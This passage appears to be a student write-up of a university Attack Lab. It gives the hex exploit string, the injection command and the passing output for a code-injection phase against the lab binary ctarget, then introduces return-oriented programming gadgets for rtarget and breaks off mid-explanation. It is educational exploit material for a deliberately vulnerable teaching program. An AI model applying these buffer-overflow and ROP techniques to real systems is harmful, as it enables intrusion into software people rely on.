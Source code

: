 And then `gcc -c inject3.s`, `objdump -d inject3.o > inject3.d`, then record the machine code: `68 fa 18 40 00 48 c7 c7 a8 dc 61 55 c3`, lastly result is store in *result3.txt*:

```txt
68 fa 18 40 00 48 c7 c7
a8 dc 61 55 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```

Run command `cat result3.txt | ./hex2raw | ./ctarget -q` and get output:

```txt
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
    user id bovik
    course  15213-f15
    lab     attacklab
    result  1:PASS:0xffffffff:ctarget:3:68 FA 18 40 00 48 C7 C7 A8 DC 61 55 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61
```

## Part II: ROP

*rtarget* has the same form as *ctarget*, but with two techinques:

- randomization
- marks the section of memory holding the stack as nonexecutable

It makes code-injection attacks can't perform.

So we need new technique called **return-oriented programming(ROP)**.

The strategy with ROP is to identify byte sequences within an existing program that consist of one or more instructions followed by the instruction `ret`. When the program executes a `ret` instruction starting with this configuration, it will initiate a chain of gadget excutions, with the `ret` instruction at the end of each gadget causing the program to jump to the beginning of the next.

## Phase 4

Repeat the attack of Phase 2, but do so on program *rtarget* using gadgets from gadget fram.

We can construct our solution using gadgets consiting of the following instruction types, and using only the first eight x86-64 registers(%rax - %rdi).

- `movq`, `popq`, `ret`, `nop`.

First, `movq %rsp, %rdi` is `48 89 e7`.

Second, `ret` is `0xc3`, `nop` is `0x90`.
